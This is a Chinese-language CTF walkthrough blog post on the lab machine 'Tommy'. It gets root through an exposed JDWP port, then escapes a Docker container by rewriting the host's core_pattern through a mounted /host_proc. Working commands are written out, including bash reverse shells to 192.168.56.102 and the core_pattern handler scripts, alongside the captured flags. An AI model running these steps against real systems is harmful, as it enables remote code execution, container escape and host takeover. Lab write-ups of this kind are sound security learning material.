





# Tommy


# Tommy

## 端口扫描

```python
(base) ┌──(root㉿kali)-[~/projects/ctfesc]
└─# rustscan -a 192.168.56.178 --ulimit 5000 -- -sV -sC
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Port scanning: Making networking exciting since... whenever.

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.56.178:22
Open 192.168.56.178:4000
Open 192.168.56.178:80
Open 192.168.56.178:5005
Open 192.168.56.178:8080
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sV -sC" on ip 192.168.56.178
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-11 17:35 CST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:35
Completed NSE at 17:35, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:35
Completed NSE at 17:35, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:35
Completed NSE at 17:35, 0.00s elapsed
Initiating ARP Ping Scan at 17:35
Scanning 192.168.56.178 [1 port]
Completed ARP Ping Scan at 17:35, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:35
Completed Parallel DNS resolution of 1 host. at 17:35, 0.04s elapsed
DNS resolution of 1 IPs took 0.04s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 17:35
Scanning 192.168.56.178 [5 ports]
Discovered open port 22/tcp on 192.168.56.178
Discovered open port 80/tcp on 192.168.56.178
Discovered open port 8080/tcp on 192.168.56.178
Discovered open port 5005/tcp on 192.168.56.178
Discovered open port 4000/tcp on 192.168.56.178
Completed SYN Stealth Scan at 17:35, 0.02s elapsed (5 total ports)
Initiating Service scan at 17:35
Scanning 5 services on 192.168.56.178
Completed Service scan at 17:37, 161.22s elapsed (5 services on 1 host)
NSE: Script scanning 192.168.56.178.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:37
Completed NSE at 17:38, 14.16s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:38
Completed NSE at 17:38, 1.01s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:38
Completed NSE at 17:38, 0.00s elapsed
Nmap scan report for 192.168.56.178
Host is up, received arp-response (0.00070s latency).
Scanned at 2026-07-11 17:35:07 CST for 177s

PORT     STATE SERVICE         REASON         VERSION
22/tcp   open  ssh             syn-ack ttl 64 OpenSSH 10.3 (protocol 2.0)
80/tcp   open  http            syn-ack ttl 64 Apache httpd 2.4.67 ((Unix))
|_http-server-header: Apache/2.4.67 (Unix)
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
4000/tcp open  remoteanything? syn-ack ttl 63
5005/tcp open  jdwp            syn-ack ttl 63 Java Debug Wire Protocol (Reference Implementation) version 1.8 1.8.0_482
|_jdwp-info: ERROR: Script execution failed (use -d to debug)
8080/tcp open  http            syn-ack ttl 63 Apache Tomcat 9.0.116
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.116
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 08:00:27:9C:52:14 (Oracle VirtualBox virtual NIC)

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:38
Completed NSE at 17:38, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:38
Completed NSE at 17:38, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:38
Completed NSE at 17:38, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.93 seconds
           Raw packets sent: 6 (248B) | Rcvd: 6 (248B)
```

## 5005/tcp

可以发现有 `5005/tcp`​。在 Java/Tomcat 场景里，`5005`​ 经常是 JDWP 远程调试端口。JDWP 如果直接暴露在网络上，并且没有访问控制，攻击者可以通过调试协议在 JVM 里调用方法，进一步触发 `Runtime.exec()` 执行系统命令。

找到  [l3yx/jdwp-codeifier: 基于 jdwp-shellifier 的进阶JDWP漏洞利用脚本（动态执行Java/Js代码并获得回显）](https://github.com/l3yx/jdwp-codeifier) 这个工具进行利用。

```python
jdwp-codeifier-main> python .\jdwp-codeifier.py -t 192.168.56.178 -p 5005 -m command2 -c "id"
[+] Dump vm description
Java Debug Wire Protocol (Reference Implementation) version 1.8
JVM Debug Interface version 1.2
JVM version 1.8.0_482 (OpenJDK 64-Bit Server VM, mixed mode, sharing)

[+] Setting 'step into' event in thread: 0x14c3
[+] Received matching event from thread: 0x14c3
[+] Found Runtime class: 0x13b6
[+] Found Runtime.getRuntime(): 0x7f473000c9f0
[+] Command string created: 0x14c4, command: id
[+] Runtime.getRuntime() returned context: 0x14c5
[+] found Runtime.exec(): 0x7f473000ca50
[+] Runtime.exec() successful, retId: 0x14c6
[+] Run Command Result:

uid=0(root) gid=0(root) groups=0(root)
```

然后反弹一个 shell

```python
(base) ┌──(root㉿kali)-[/tmp]
python3 jdwp-codeifier.py -t 192.168.56.178 -p 5005 -m code -c 'new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/192.168.56.102/3344 0>&1").start()'t()'
[+] Dump vm description 
Java Debug Wire Protocol (Reference Implementation) version 1.8
JVM Debug Interface version 1.2
JVM version 1.8.0_482 (OpenJDK 64-Bit Server VM, mixed mode, sharing)

[+] Setting 'step into' event in thread: 0x1030
[+] Received matching event from thread: 0x1030
[+] Run JS Code Result:

java.lang.UNIXProcess@5ac86ba5
```



稳定 shell

```python
/usr/bin/script -qc /bin/bash /dev/null
按下 ctrl z
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash
```

拿  flag

```python
root@73e08a556d2a:/home/ubuntu# cd /root/
root@73e08a556d2a:~# ls
user.txt
root@73e08a556d2a:~# cat user.txt 
flag{user-d47608d442526c015a0ce887ee66b333}
root@73e08a556d2a:~# 
```

## Docker 容器逃逸

当前环境存在：

```python
/.dockerenv
/host_proc
```

- `/.dockerenv` 是 Docker 容器内常见标志，说明当前环境是容器。
- `/host_proc`​ 更关键，应该是宿主机 `/proc` 被挂进了容器。
- `/proc`​ 容器自己的 `/proc`

接下来应该就是通过 **Docker 逃逸** 到宿主机拿到 root  flag

先读取宿主机挂载信息：

```python
root@73e08a556d2a:~# cat host_proc/1/mountinfo
cat: host_proc/1/mountinfo: No such file or directory
root@73e08a556d2a:~# cat /host_proc/1/mountinfo
23 28 0:21 / /sys rw,nosuid,nodev,noexec,relatime - sysfs sysfs rw
24 28 0:7 / /dev rw,nosuid,noexec,relatime - devtmpfs devtmpfs rw,size=10240k,nr_inodes=498729,mode=755,inode64
25 28 0:22 / /proc rw,nosuid,nodev,noexec,relatime - proc proc rw
26 24 0:23 / /dev/pts rw,nosuid,noexec,relatime - devpts devpts rw,gid=5,mode=620,ptmxmode=000
27 24 0:24 / /dev/shm rw,nosuid,nodev,noexec,relatime - tmpfs shm rw,inode64
28 2 8:3 / / rw,relatime - ext4 /dev/sda3 rw
29 28 0:25 / /run rw,nosuid,nodev - tmpfs tmpfs rw,size=802840k,nr_inodes=819200,mode=755,inode64
30 24 0:20 / /dev/mqueue rw,nosuid,nodev,noexec,relatime - mqueue mqueue rw
31 23 0:8 / /sys/kernel/security rw,nosuid,nodev,noexec,relatime - securityfs securityfs rw
32 23 0:9 / /sys/kernel/debug rw,nosuid,nodev,noexec,relatime - debugfs debugfs rw
33 23 0:14 / /sys/kernel/tracing rw,nosuid,nodev,noexec,relatime - tracefs tracefs rw
34 23 0:26 / /sys/fs/pstore rw,nosuid,nodev,noexec,relatime - pstore none rw
35 23 0:27 / /sys/fs/bpf rw,nosuid,nodev,noexec,relatime - bpf bpf rw
37 28 8:1 / /boot rw,relatime - ext4 /dev/sda1 rw
38 28 0:29 / /tmp rw,nosuid,nodev,relatime - tmpfs tmpfs rw,inode64
39 23 0:30 /../.. /sys/fs/cgroup rw,nosuid,nodev,noexec,relatime - cgroup2 cgroup2 rw,nsdelegate
40 28 8:3 /var/lib/docker /var/lib/docker rw,relatime shared:1 - ext4 /dev/sda3 rw
54 40 0:31 / /var/lib/docker/overlay2/e4a1ffb303e19f3da626e8cefeae0f8462ab5c76ba1ad9fc0dadb05c00df6fc5/merged rw,relatime shared:2 - overlay overlay rw,lowerdir=/var/lib/docker/overlay2/l/ZT5SEKSNGVGQQZ4LQGJPYOTPOH:/var/lib/docker/overlay2/l/RGA4LBIOYOIBZFVHS5J7XTL2OC:/var/lib/docker/overlay2/l/RNKEQ4CIMOF5R3MZFS64FHSFGT:/var/lib/docker/overlay2/l/ZJBKGJW5I6775R2WQFPYANECXA:/var/lib/docker/overlay2/l/7QTSIGEBAJ6LWWY2VTB23572SB:/var/lib/docker/overlay2/l/FDT2MFBT7EMVOM6K3RXLIXQ22D:/var/lib/docker/overlay2/l/3U33WR2M4GDLNKAIN2YMRNII4B:/var/lib/docker/overlay2/l/QQHPRLITHA35X3ESJ5EIC5OJOB:/var/lib/docker/overlay2/l/GJDZQOK7R7WRKLPEMYO555ZPVV:/var/lib/docker/overlay2/l/GEVGTUEJMX2PEFFMEQXXEN6AAX:/var/lib/docker/overlay2/l/BHOUVQAO3EWXATYFRS5FVBO7TS:/var/lib/docker/overlay2/l/VLC3ZUF3YOTBSRLZHXMV26XG47,upperdir=/var/lib/docker/overlay2/e4a1ffb303e19f3da626e8cefeae0f8462ab5c76ba1ad9fc0dadb05c00df6fc5/diff,workdir=/var/lib/docker/overlay2/e4a1ffb303e19f3da626e8cefeae0f8462ab5c76ba1ad9fc0dadb05c00df6fc5/work
55 29 0:5 net:[4026532286] /run/docker/netns/da687d6c7719 rw - nsfs nsfs rw
root@73e08a556d2a:~# 
```

知道如下信息：

- 宿主机根文件系统是 `/dev/sda3`。
- 当前容器的 overlay upperdir 是 `/var/lib/docker/overlay2/e4a1ffb303e19f3da626e8cefeae0f8462ab5c76ba1ad9fc0dadb05c00df6fc5/diff`。

## core_pattern 逃逸

**原理：** Linux 的 `/proc/sys/kernel/core_pattern`​ 控制进程崩溃时 core 文件如何生成。如果这个值以管道符 `|` 开头，内核不会把 core 写成普通文件，而是会执行管道符后面的程序，并把 core 内容传给它。

也就是说，如果能把宿主机的 `core_pattern` 改成：

```
 |/path/to/handler
```

然后让某个进程崩溃，宿主机内核就会执行 `/path/to/handler`​。这里 handler 是在宿主机上下文里执行的，所以可以读取宿主机 `/root/root.txt`。

找到当前容器在主机下的绝对路径：

```python
root@73e08a556d2a:~# cat /proc/mounts | xargs -d ',' -n 1 | grep workdir
workdir=/var/lib/docker/overlay2/e4a1ffb303e19f3da626e8cefeae0f8462ab5c76ba1ad9fc0dadb05c00df6fc5/work 0 0
root@73e08a556d2a:~# 
```

绝对路径为 `/var/lib/docker/overlay2/e4a1ffb303e19f3da626e8cefeae0f8462ab5c76ba1ad9fc0dadb05c00df6fc5/work`

编写一个脚本执行宿主机中的 flag

```python
cat > /tmp/root.sh <<'EOF'
#!/bin/sh
id > /var/lib/docker/overlay2/e4a1ffb303e19f3da626e8cefeae0f8462ab5c76ba1ad9fc0dadb05c00df6fc5/diff/tmp/host_id.txt
cat /root/root.txt > /var/lib/docker/overlay2/e4a1ffb303e19f3da626e8cefeae0f8462ab5c76ba1ad9fc0dadb05c00df6fc5/diff/tmp/host_root.txt
EOF

chmod +x /tmp/root.sh
```



然后设置一下

```python
echo '|/var/lib/docker/overlay2/e4a1ffb303e19f3da626e8cefeae0f8462ab5c76ba1ad9fc0dadb05c00df6fc5/diff/tmp/root.sh' > /host_proc/sys/kernel/core_pattern
```

```python
cat /host_proc/sys/kernel/core_pattern
```


触发：程崩溃触发 core dump 时，是**宿主机内核**去执行这个路径对应的脚本。

```bash
ulimit -c unlimited
sleep 5 &
kill -SEGV $!
```

查看：

```bash
root@73e08a556d2a:~# cat /tmp/host_id.txt
uid=0(root) gid=0(root)
root@73e08a556d2a:~# cat /tmp/host_root.txt
flag{root-7e902fffa09d6e5347334eabb19f0b2e}
root@73e08a556d2a:~# 
```



### 反弹 shell

创建一个脚本用于反弹shell：

```bash
cat > /tmp/reshell.sh <<EOF
#!/bin/sh
/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.102/7777 0>&1'
echo core > /proc/sys/kernel/core_pattern
EOF

chmod +x /tmp/reshell.sh
```



然后设置一下

```bash
echo '|/var/lib/docker/overlay2/e4a1ffb303e19f3da626e8cefeae0f8462ab5c76ba1ad9fc0dadb05c00df6fc5/diff/tmp/reshell.sh' > /host_proc/sys/kernel/core_pattern
```


攻击机监听一下

```bash
(base) ┌──(root㉿kali)-[/tmp]
└─# nc -lvvp 7777
listening on [any] 7777 ...
id

```

触发崩溃不一定要让 Docker 重启，随便让容器里一个进程崩就行：

```bash
ulimit -c unlimited
sleep 5 &
kill -SEGV $!
```

然后就能拿到宿主机的 shell 

```bash
(base) ┌──(root㉿kali)-[/tmp]
└─# nc -lvvp 7777
listening on [any] 7777 ...
id
192.168.56.178: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.178] 44482
bash: cannot set terminal process group (-1): Not a tty
bash: no job control in this shell
Tommy:/# id
uid=0(root) gid=0(root)
Tommy:/# cat /root/root.txt
cat /root/root.txt
flag{root-7e902fffa09d6e5347334eabb19f0b2e}
Tommy:/# 
```



flag：

> flag{user-d47608d442526c015a0ce887ee66b333}
>
> flag{root-7e902fffa09d6e5347334eabb19f0b2e}

‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/tommy/  

